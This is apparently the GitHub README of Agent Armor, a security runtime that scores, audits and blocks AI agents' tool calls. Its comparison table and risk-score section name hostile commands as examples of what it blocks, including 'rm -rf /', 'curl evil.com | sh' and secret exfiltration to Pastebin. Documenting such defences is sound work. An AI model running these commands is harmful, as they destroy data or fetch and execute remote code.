




<h1 align="center">Agent Armor</h1>

<p align="center">
  <strong>Zero-Trust Security Runtime for Autonomous AI Agents</strong>
</p>

<p align="center">
  <a href="#quick-start">Quick Start</a> •
  <a href="#8-layer-security-stack">8 Layers</a> •
  <a href="#api-reference">API</a> •
  <a href="#dashboard">Dashboard</a> •
  <a href="#configuration">Config</a> •
  <a href="#architecture">Architecture</a>
</p>

<p align="center">
  <a href="https://github.com/EdoardoBambini/Agent-Armor-Iaga/actions"></a>
  <a href="LICENSE"></a>
  
  <a href="https://www.iaga.tech"></a>
</p>

<p align="center">
  
</p>

---

## The Problem

AI agents are getting tool access — shell, file system, databases, APIs, secrets. But **nobody is governing what they actually do with it**.

Frameworks like LangChain, CrewAI, AutoGen, and Claude Code give agents the power to execute. Agent Armor gives you the power to **control, audit, and approve** every single action before it happens.

## Why Agent Armor

| Without Agent Armor | With Agent Armor |
|---|---|
| Agent runs `rm -rf /` | Agent tries `rm -rf /` → **BLOCKED** at risk score 82 |
| Agent runs `curl evil.com \| sh` | 8-layer composite scores it **88/100** → highest threat tier |
| Agent exfiltrates secrets to Pastebin | Injection firewall catches prompt attack → **SAFE** |
| "How dangerous was that action?" → no answer | Continuous risk scores 1-88 with per-layer breakdown → **QUANTIFIED** |
| "What did the agent do last Tuesday?" → no answer | Full audit trail, every action, every decision → **COMPLIANT** |
| Agent uses tool it shouldn't | Policy engine blocks unapproved tools → **GOVERNED** |
| No idea who the agent even is | NHI registry with crypto identity → **IDENTIFIED** |
| Agent responses leak PII or secrets | Response scanner detects sensitive data before delivery → **FILTERED** |
| Agent floods APIs with unlimited calls | Rate limiter enforces per-agent quotas → **THROTTLED** |
| Can't distinguish one agent from another | Behavioral fingerprinting profiles each agent → **PROFILED** |
| Zero visibility into emerging threats | Threat intel feed matches known IOCs in real time → **INFORMED** |

## 8-Layer Security Stack

Every agent action passes through a **deterministic 8-layer security pipeline**:

```
  Agent Request
       │
       ▼
┌──────────────────────────────────────────────────────┐
│  Layer 1 │ Protocol DPI        — MCP/ACP/HTTP deep   │
│          │                       packet inspection    │
│──────────┼────────────────────────────────────────────│
│  Layer 2 │ Taint Tracking      — Track data flow,     │
│          │                       detect exfiltration  │
│──────────┼────────────────────────────────────────────│
│  Layer 3 │ NHI Registry        — Non-human identity   │
│          │                       + HMAC attestation   │
│──────────┼────────────────────────────────────────────│
│  Layer 4 │ Risk Scoring        — Adaptive 5-weight    │
│          │                       risk model           │
│──────────┼────────────────────────────────────────────│
│  Layer 5 │ Impact Analysis     — Pre-execution risk    │
│          │                       assessment + capture │
│──────────┼────────────────────────────────────────────│
│  Layer 6 │ Policy Engine       — Workspace rule        │
│          │                       evaluation + checks  │
│──────────┼────────────────────────────────────────────│
│  Layer 7 │ Injection Firewall  — 3-stage prompt       │
│          │                       injection defense    │
│──────────┼────────────────────────────────────────────│
│  Layer 8 │ Observability       — OpenTelemetry spans  │
│          │                       + real-time SSE      │
└──────────────────────────────────────────────────────┘
       │
       ▼
  ALLOW │ REVIEW │ BLOCK
```

### Layer Details

| # | Layer | What It Does | Key Endpoint |
|---|-------|-------------|--------------|
| 1 | **Protocol DPI** | Deep packet inspection for MCP, ACP, HTTP function calls. Schema validation against registered tool definitions. | `POST /v1/inspect` |
| 2 | **Taint Tracking** | Tracks data provenance through agent execution. Detects credential leaks and exfiltration attempts. | inline (pipeline) |
| 3 | **NHI Registry** | Non-human identity with real HMAC-SHA256 challenge-response attestation. Every agent is a first-class cryptographic identity. | `POST /v1/nhi/challenge` |
| 4 | **Risk Scoring** | Adaptive 5-weight scoring model (statistical, contextual, behavioral, temporal, reputation). | `GET /v1/risk/weights` |
| 5 | **Impact Analysis** | Pre-execution risk assessment with command analysis and impact prediction. | `GET /v1/sandbox/pending` |
| 6 | **Policy Engine** | Workspace policy evaluation — checks tool permissions, protocol restrictions, domain allowlists. | `GET /v1/policy/verify/{workspace_id}` |
| 7 | **Injection Firewall** | 3-stage prompt injection defense: pattern matching, entropy analysis, structural validation. | `GET /v1/firewall/stats` |
| 8 | **Observability** | OpenTelemetry-compatible spans, real-time SSE event stream, webhook integrations. | `GET /v1/telemetry/spans` |

## Advanced Features (Tier 2)

Beyond the core 8-layer pipeline, Agent Armor includes advanced capabilities for production deployments:

- **Response Scanning** — Scans agent output for sensitive data (PII, credentials, API keys, internal paths) before it reaches the user or downstream systems. Configurable pattern matching with built-in rules for common secret formats.

- **Rate Limiting** — Per-agent request throttling with configurable quotas, burst allowances, and sliding window tracking. Prevents runaway agents from overwhelming backend services or exhausting API budgets.

- **Agent Fingerprinting** — Builds behavioral profiles for each agent based on tool usage patterns, request timing, and action sequences. Detects anomalous behavior that deviates from an agent's established baseline.

- **Threat Intelligence** — Maintains an indicator-of-compromise (IOC) feed that checks agent actions against known malicious patterns, IPs, domains, and hashes. Supports adding custom indicators and querying match statistics.

## Quick Start

**Option 1: Docker (recommended)**
```bash
docker compose up -d
```

**Option 2: From source**
```bash
git clone https://github.com/EdoardoBambini/Agent-Armor-Iaga.git
cd Agent-Armor-Iaga/community
cargo build --release
./target/release/agent-armor gen-key --label "my-first-key"
./target/release/agent-armor serve
```

**Option 3: MCP Proxy with Claude Desktop**

Add to your `claude_desktop_config.json`:
```json
{
  "mcpServers": {
    "agent-armor-proxy": {
      "command": "/path/to/agent-armor",
      "args": ["proxy", "--agent-id", "claude-desktop-01", "--command", "npx", "-y", "@modelcontextprotocol/server-filesystem", "/tmp"]
    }
  }
}
```

Every tool call from Claude Desktop will now pass through Agent Armor's 8-layer security pipeline before reaching the filesystem server.

Open `http://localhost:4010` to access the cyberpunk security dashboard.

### Docker Compose

```bash
# Clone and start
git clone https://github.com/EdoardoBambini/Agent-Armor-Iaga.git
cd Agent-Armor-Iaga
docker compose up -d

# Generate your first API key
docker compose exec agent-armor ./agent-armor gen-key --label "my-key"
```

## Dashboard

The dashboard ships built-in — no separate frontend build, no React, no webpack. It's embedded directly in the binary via `include_str!()`.

### What you'll see:

- **8-Layer Status** — Real-time status of all security layers
- **Session Graph** — Active agent sessions with FSA state tracking
- **Risk Weights** — Live adaptive scoring weights visualization
- **Impact Monitor** — Pending executions awaiting approval
- **Firewall Stats** — 3-stage injection defense metrics
- **Policy Verification** — Workspace policy consistency checks
- **Telemetry Spans** — OpenTelemetry trace visualization
- **Audit Trail** — Every governance decision with risk scores
- **SSE Live Feed** — Real-time event stream

## API Reference

### Authentication

All `/v1/*` endpoints require a Bearer token:

```bash
# First run — create an API key
curl -X POST http://localhost:4010/v1/auth/keys \
  -H "Content-Type: application/json" \
  -d '{"label": "my-key"}'

# Use it
curl http://localhost:4010/v1/audit \
  -H "Authorization: Bearer <your-key>"
```

When no API keys exist, all endpoints are open (bootstrap mode).

### Core Endpoints

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/` | Dashboard (public) |
| `GET` | `/health` | Health check (public) |
| `POST` | `/v1/inspect` | Core governance pipeline |
| `GET` | `/v1/audit` | Full audit trail |
| `GET` | `/v1/reviews` | Human review queue |
| `POST` | `/v1/reviews/:id` | Approve/reject review item |

### Identity & Auth

| Method | Path | Description |
|--------|------|-------------|
| `POST` | `/v1/auth/keys` | Create API key |
| `GET` | `/v1/auth/keys` | List API keys |
| `DELETE` | `/v1/auth/keys/:id` | Revoke API key |
| `GET` | `/v1/nhi/identities` | List agent identities |
| `POST` | `/v1/nhi/challenge` | Create HMAC challenge for agent attestation |
| `POST` | `/v1/nhi/verify` | Verify agent challenge-response signature |

### Profiles & Workspaces

| Method | Path | Description |
|--------|------|-------------|
| `GET/POST` | `/v1/profiles` | List/create agent profiles |
| `GET/PUT/DELETE` | `/v1/profiles/:id` | CRUD agent profile |
| `GET/POST` | `/v1/workspaces` | List/create workspaces |
| `GET/PUT/DELETE` | `/v1/workspaces/:id` | CRUD workspace |

### Security Layers

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/risk/weights` | Get risk scoring weights |
| `POST` | `/v1/risk/feedback` | Submit risk scoring feedback |
| `GET` | `/v1/sessions` | List active sessions |
| `GET` | `/v1/sandbox/pending` | Pending sandbox executions |
| `POST` | `/v1/sandbox/:id/approve` | Approve sandbox execution |
| `GET` | `/v1/policy/verify/:ws_id` | Verify workspace policy |
| `POST` | `/v1/firewall/scan` | Scan for prompt injection |
| `GET` | `/v1/firewall/stats` | Firewall statistics |
| `GET` | `/v1/telemetry/spans` | OpenTelemetry spans |
| `GET` | `/v1/telemetry/metrics` | Telemetry metrics |
| `GET` | `/v1/telemetry/export` | Export OTLP-compatible telemetry |

### Response Scanning

| Method | Path | Description |
|--------|------|-------------|
| `POST` | `/v1/response/scan` | Scan agent response for sensitive data (PII, secrets, credentials) |
| `GET` | `/v1/response/patterns` | List active sensitive data patterns used by the scanner |

### Rate Limiting

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/rate-limit/status/:agent_id` | Get current rate limit status for an agent |
| `GET` | `/v1/rate-limit/config` | Get global rate limit configuration |
| `POST` | `/v1/rate-limit/config` | Update rate limit configuration |

### Agent Fingerprinting

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/fingerprint` | List all agent behavioral fingerprints |
| `GET` | `/v1/fingerprint/:agent_id` | Get behavioral fingerprint for a specific agent |

### Threat Intelligence

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/threat-intel/indicators` | List all threat indicators |
| `POST` | `/v1/threat-intel/indicators` | Add a new threat indicator (IOC) |
| `DELETE` | `/v1/threat-intel/indicators/:id` | Remove a threat indicator |
| `GET` | `/v1/threat-intel/stats` | Get threat intelligence statistics |
| `POST` | `/v1/threat-intel/check` | Check a value against known threat indicators |

### Audit & Compliance

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/audit/export?format=json` | Export audit trail (JSON/CSV) with optional filters |
| `GET` | `/v1/audit/stats` | Aggregate audit statistics (decisions, top agents, top tools) |

### Agent Analytics

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/analytics/agents` | Summary analytics for all active agents |
| `GET` | `/v1/analytics/agents/:id` | Detailed analytics for a specific agent |

### Events

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/events/stream` | SSE real-time event stream |
| `POST` | `/v1/webhooks` | Register webhook |
| `GET` | `/v1/webhooks` | List webhooks |
| `DELETE` | `/v1/webhooks/:id` | Remove webhook |
| `GET` | `/v1/webhooks/dlq` | List dead-letter queue entries |
| `POST` | `/v1/webhooks/dlq/:id/retry` | Retry a failed webhook delivery |
| `DELETE` | `/v1/webhooks/dlq/:id` | Remove DLQ entry |

### Demo

| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/v1/demo/scenarios` | List demo scenarios |
| `POST` | `/v1/demo/run-adapter` | Run all demo scenarios |

## Configuration

### Config File

Create `agent-armor.config.json` in your project root:

```json
{
  "profiles": [
    {
      "agentId": "my-agent",
      "workspaceId": "ws-prod",
      "framework": "langchain",
      "role": "builder",
      "approvedTools": ["filesystem.read", "http.fetch"],
      "approvedSecrets": ["secretref://prod/api/key"],
      "baselineActionTypes": ["file_read", "http"]
    }
  ],
  "workspaces": [
    {
      "workspaceId": "ws-prod",
      "allowedProtocols": ["mcp"],
      "allowedDomains": ["api.github.com"],
      "tools": [
        {
          "toolName": "filesystem.read",
          "allowedActionTypes": ["file_read"],
          "maxDecision": "allow"
        }
      ],
      "thresholdBlock": 70,
      "thresholdReview": 35
    }
  ],
  "vault": [
    "secretref://prod/api/key"
  ]
}
```

### YAML Config

Agent Armor also supports YAML configuration — see `community/agent-armor.example.yaml`.

## Architecture

```
community/src/
├── main.rs                              # Entry point
├── lib.rs                               # Library root
├── auth/
│   ├── api_keys.rs                      # Argon2-hashed API key management
│   └── middleware.rs                    # Auth middleware (Bearer token)
├── config/
│   ├── env.rs                           # Environment config
│   └── load_config.rs                   # JSON/YAML config loader
├── core/
│   ├── types.rs                         # Domain types
│   └── errors.rs                        # Error types (thiserror)
├── dashboard/
│   └── index_html.rs                    # Embedded HTML dashboard
├── events/
│   ├── bus.rs                           # Event bus (broadcast)
│   ├── sse.rs                           # Server-Sent Events
│   └── webhooks.rs                      # HMAC-signed webhook delivery + DLQ
├── modules/
│   ├── protocol/                        # Layer 1: Protocol DPI
│   ├── taint/                           # Layer 2: Taint Tracking
│   ├── nhi/                             # Layer 3: NHI Registry
│   ├── risk/                            # Layer 4: Risk Scoring
│   ├── sandbox/                         # Layer 5: Sandbox Execution
│   ├── policy/                          # Layer 6: Policy Engine
│   ├── injection_firewall/              # Layer 7: Injection Firewall
│   ├── telemetry/                       # Layer 8: Observability
│   ├── audit/                           # Audit trail store
│   ├── review/                          # Human review queue
│   ├── secrets/                         # Secret reference resolution
│   ├── session_graph/                   # Session DAG tracking
│   ├── rate_limit/                      # Per-agent rate limiting
│   ├── fingerprint/                     # Behavioral agent fingerprinting
│   └── threat_intel/                    # Threat intelligence feed
├── pipeline/
│   └── execute_pipeline.rs              # Orchestrates all 8 layers
├── server/
│   ├── create_server.rs                 # Axum router (57 endpoints)
│   └── app_state.rs                     # Shared application state
├── storage/
│   ├── sqlite.rs                        # SQLite persistence
│   └── traits.rs                        # Storage trait abstractions
├── mcp_proxy/                           # MCP protocol proxy
├── cli/                                 # CLI inspect tool
└── demo/                               # Demo scenarios
```

### Tech Stack

| Component | Technology |
|-----------|-----------|
| Runtime | Rust + Tokio |
| HTTP | Axum 0.8 |
| Database | SQLite (sqlx) |
| Auth | Argon2 + Bearer tokens |
| Crypto | HMAC-SHA256 (NHI identity) |
| Webhooks | HMAC-SHA256 signed |
| Telemetry | OpenTelemetry-compatible |
| Events | Server-Sent Events (SSE) |
| Dashboard | Embedded HTML (zero deps) |

## Open-Core Model

| Feature | Community (Open Source) | Enterprise |
|---------|----------------------|------------|
| Protocol DPI | Yes | Yes |
| Taint Tracking | Yes | Yes |
| NHI Registry | Yes | Yes |
| Risk Scoring | Yes | Yes |
| Impact Analysis | Yes | Yes |
| Policy Engine | Yes | Yes |
| Injection Firewall | Basic | Advanced ML-powered |
| Observability | Yes | Yes |
| Response Scanning | Yes | Yes |
| Rate Limiting | Yes | Yes |
| Agent Fingerprinting | Yes | Yes |
| Threat Intelligence | Basic | Advanced feed integration |
| Multi-tenant | — | Yes |
| SSO/SAML | — | Yes |
| SIEM Integration | — | Yes |
| Priority Support | — | Yes |

## Governance Decisions

| Decision | Risk Score | Meaning |
|---|---|---|
| `allow` | 0 -- threshold_review | Action is safe, execute immediately |
| `review` | threshold_review -- threshold_block | Requires human approval before execution |
| `block` | threshold_block -- 100 | Action denied, too risky |

Thresholds are **configurable per workspace** (defaults: review=35, block=70). Risk scores are computed as a **weighted composite** across all 8 security layers — not a binary flag. A `curl | sh` (score 88) is quantifiably more dangerous than a `chmod 777` (score 82), which is more dangerous than a prompt injection attempt (score 76).

## Case Study: 99.8% Accuracy on 800 Requests

We benchmarked Agent Armor against 16 real-world attack and benign scenarios (50 reps each):

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
</p>

| Metric | Value |
|--------|-------|
| Total requests | 800 |
| Decision accuracy | **99.8%** |
| Risk score range | 1 -- 88 (continuous) |
| Pipeline latency | **~2.4ms** (8 layers) |
| False positives | 0 |
| Attack categories tested | 9 |

Read the full analysis: **[Case Study v2](docs/CASE_STUDY.md)**

## CLI Usage

```bash
# Inspect from JSON file
cargo run -- inspect payload.json

# Inspect from stdin
echo '{"agentId":"agent-01","framework":"langchain","action":{"type":"shell","toolName":"terminal.exec","payload":{"command":"ls -la"}}}' | cargo run -- inspect --stdin
```

Exit codes: `0` = allow, `1` = review, `2` = block, `3` = error.

## Testing

```bash
cargo test                    # Run all tests
cargo test -- --nocapture     # With output
cargo clippy                  # Lint
```

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines.

## Built by

**[IAGA](https://www.iaga.tech)** — Building the governance layer for the agentic era.

## License

[Business Source License 1.1](LICENSE) — free for non-production use, converts to Apache 2.0 after 4 years.

## Disclaimer

Agent Armor is provided **"as is"**, without warranty of any kind, express or implied. The authors and contributors make no guarantees regarding the software's functionality, reliability, availability, or suitability for any particular purpose. Agent Armor is **not a substitute for a comprehensive security program** — it is a supplementary governance layer. Use of this software is entirely at your own risk. In no event shall the authors be liable for any claim, damages, or other liability arising from the use of or inability to use this software.

---

<p align="center">
  <sub>Agent Armor is in active development. Star the repo to follow along.</sub>
</p>
